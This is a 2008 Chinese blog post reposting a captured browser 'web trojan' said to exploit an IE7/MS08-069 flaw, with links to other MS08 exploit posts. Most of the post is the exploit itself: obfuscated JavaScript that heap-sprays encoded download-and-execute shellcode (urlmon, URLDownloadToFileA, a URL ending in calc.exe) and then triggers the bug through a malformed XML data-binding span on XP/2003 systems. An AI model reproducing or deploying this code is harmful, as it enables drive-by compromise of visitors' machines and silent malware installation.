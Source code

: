 ```yaml
---
title: ms08069利用代码exploit 网马
description: 话说这个ms08069利用代码exploit网马代码好像和夜火我昨天发的IE7漏洞0dayexploit的代码差不多，对代码这一块，我也不是很懂，发出来也只是给大家看，我自己没什么能力研究哈~，大家自行辨认。
date: 2008-12-11 10:06:34
category: 漏洞信息
tags: ['网马', '微软', '漏洞信息', 'exploit']
post_id: 711
alias: ms08069-exploit
ViewNums: 3213
---
```


话说这个 [**ms08069利用代码exploit 网马**](/blog/ms08069-exploit) 代码好像和[夜火](/blog/)我昨天发的[IE7漏洞0day exploit](/blog/ie7-0day-exploit "ie7漏洞0day exploit"的代码差不多，对代码这一块，我也不是很懂，发出来也只是给大家看，我自己没什么能力研究哈~，大家自行辨认。

[cnhulk的自留地](http://hi.baidu.com/cnhulk/blog/item/c554f60f844a0ce037d1227f.html)：

据说有人已经发出来了，俺也把俺昨天抓的那个发出来吧。

如何用就自己拿去研究好了，自己小解了一下。
```html
<script>
function sleep(milliseconds)
{
var start=new Date().getTime();
for(var i=0;i<1e7;i++)
{
   if((new Date().getTime()-start)>milliseconds)
   {
    break
   }
}
}function spray(sc)
{
var bwkbnwvojsqweyvwgabdlie=0x0a0a0a0a;
var bwkbnwvojsqweyvwgabdlieyqfbygrgz=unescape;
var asdfkj129312asdfasd=bwkbnwvojsqweyvwgabdlieyqfbygrgz(sc);
var heapBlockSize=0x100000;
var payLoadSize=asdfkj129312asdfasd.length*2;
var szlong=heapBlockSize-(payLoadSize+0x038);
var retVal=bwkbnwvojsqweyvwgabdlieyqfbygrgz("%u0a0a%u0a0a");
retVal=getSampleValue(retVal,szlong);
aaablk=(bwkbnwvojsqweyvwgabdlie-0x100000)/heapBlockSize;
zzchuck=new Array();
for(i=0;i<aaablk;i++)
{
   zzchuck[i]=retVal+asdfkj129312asdfasd
}
}
function getSampleValue(retVal,szlong)
{
while(retVal.length*2<szlong)
{
   retVal+=retVal
}retVal=retVal.substring(0,szlong/2);
return retVal
}var a1="%u";
spray("%u56e8%u0000%u5300%u5655%u8b57%u246c%u8b18%u3c45%u548b%u7805%uea01%u4a8b%u8b18%u205a%ueb01%u32e3%u8b49%u8b34%uee01%uff31%u31fc%uacc0%ue038%u0774%ucfc1%u010d%uebc7%u3bf2%u247c%u7514%u8be1%u245a%ueb01%u8b66%u4b0c%u5a8b%u011c%u8beb%u8b04%ue801%u02eb%uc031%u5e5f%u5b5d%u08c2%u5e00%u306a%u6459%u198b%u5b8b%u8b0c%u1c5b%u1b8b%u5b8b%u5308%u8e68%u0e4e%uffec%u89d6%u53c7%u8e68%u0e4e%uffec%uebd6%u5a50%uff52%u89d0%u52c2%u5352%uaa68%u0dfc%uff7c%u5ad6%u4deb%u5159%uff52%uebd0%u5a72%u5beb%u6a59%u6a00%u5100%u6a52%uff00%u53d0%ua068%uc9d5%uff4d%u5ad6%uff52%u53d0%u9868%u8afe%uff0e%uebd6%u5944%u006a%uff51%u53d0%u7e68%ue2d8%uff73%u6ad6%uff00%ue8d0%uffab%uffff%u7275%u6d6c%u6e6f%u642e%u6c6c%ue800%uffae%uffff%u5255%u444c%u776f%u6c6e%u616f%u5464%u466f%u6c69%u4165%ue800%uffa0%uffff%u2e2e%u765c%ue800%uffb7%uffff%u2e2e%u765c%ue800%uff89%uffff%u7468%u7074%u2f3a%u6c2f%u636f%u6c61%u6f68%u7473%u632f%u6c61%u2e63%u7865%u0065");
sleep(2000);
nav=navigator.userAgent.toLowerCase();
if(navigator.appVersion.indexOf('MSIE')!=-1)
{
version=parseFloat(navigator.appVersion.split('MSIE')[1])
}if(version==7)
{
w2k3=((nav.indexOf('windows nt 5.2')!=-1)||(nav.indexOf('windows 2003')!=-1));
wxp=((nav.indexOf('windows nt 5.1')!=-1)||(nav.indexOf('windows xp')!=-1));
if(wxp||w2k3)document.write('<XML ID=I><X><C><![CDATA[<image SRC=http://&#254;&#2570;&#114;.test.net src=http://www.google.com]]><![CDATA[>]]></C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML><XML ID=I></XML><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>');
var i=1;
while(i<=10)
{
   window.status=" ";
   i++
}
}
</script>
```
相关：
[MS08-068 Exploit -SmbRelay3 NTLM Replay Attack Tool/Exploit](/blog/ms08-068-exploit-smbrelay3-ntlm-replay-attack-tool)
[MS08-067漏洞批量检测程序-MS08-067 check](/blog/ms08-067-check)
[MS08-067 Exploit for CN 2k/xp/2003 .net version](/blog/ms08-067-exploit-for-cn-2k-xp-2003-net-version)
[MS08-067 Exploit for CN 2k/xp/2003 bypass version](/blog/ms08-067-exploit-for-cn-2k-xp-2003-bypass-version)
[ms08-066 Exploit](/blog/ms08-066-exploit)
[MS08-052 - MS Windows GDI+ Proof of Concept](/blog/ms08-052-gdi)
[MS08-046 - MS Windows InternalOpenColorProfile Heap Overflow PoC](/blog/ms08-046)
[ms08025 分析 Windows的内核漏洞](/blog/ms08025-fenxi-windows-loudong)

